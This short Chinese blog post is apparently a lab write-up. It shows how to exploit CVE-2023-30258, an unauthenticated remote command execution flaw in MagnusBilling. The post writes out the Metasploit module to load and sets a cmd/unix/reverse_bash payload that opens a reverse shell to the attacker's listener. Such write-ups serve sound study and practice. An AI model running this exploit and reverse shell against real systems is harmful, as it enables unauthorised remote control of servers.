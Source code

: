 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)
